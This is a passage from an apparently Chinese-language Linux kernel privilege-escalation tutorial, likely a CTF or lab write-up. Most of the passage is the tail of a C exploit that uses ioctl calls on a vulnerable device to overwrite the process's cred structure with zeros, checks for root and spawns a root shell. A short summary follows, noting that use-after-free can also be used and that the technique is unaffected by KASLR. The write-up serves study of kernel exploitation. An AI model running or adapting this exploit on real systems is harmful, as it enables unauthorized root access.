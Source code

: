 ```
        puts("[-] not found, try again! n");
        exit(-1);
    `}`

    int root_cred[12];
    memset((char *)root_cred,0,28);

    struct seek_args s_args1;
    struct write_args w_args;

    s_args1.new_pos=cred-0x10;
    ioctl(fd,0x8008FE0A,&amp;s_args1);
    w_args.buff=root_cred;
    w_args.count=28;
    ioctl(fd,0x8008FE0B,&amp;w_args);

`}`

int main(int argc,char * argv[])`{`
    init();
    if(argc &gt; 1)`{`
        if(!strcmp(argv[1],"--breakpoint"))`{`
            printf("[%p]n",exploit);
        `}`
        return 0;
    `}`
    save_user_status();

    exploit();

    if(getuid() == 0) `{`
        printf("[!!!] Now! You are root! [!!!]n");
        system("/bin/sh");
    `}`else`{`
        printf("[XXX] Fail! Something wrong！ [XXX]n");
    `}`
    return 0;
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-04-27-115805.png)

#### <a class="reference-link" name="%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93"></a>姿势总结
1. 这种提权姿势最核心的就是修改`cred`结构体。
1. 除了任意地址读写，如果分配的大小合适，我们可以利用`Use-After-Free`直接控制整个结构体进行修改。
1. **这种方案不受`kaslr`保护的影响！**
### 第二种提权姿势-劫持`prctl`函数调用`call_usermodehelper()`
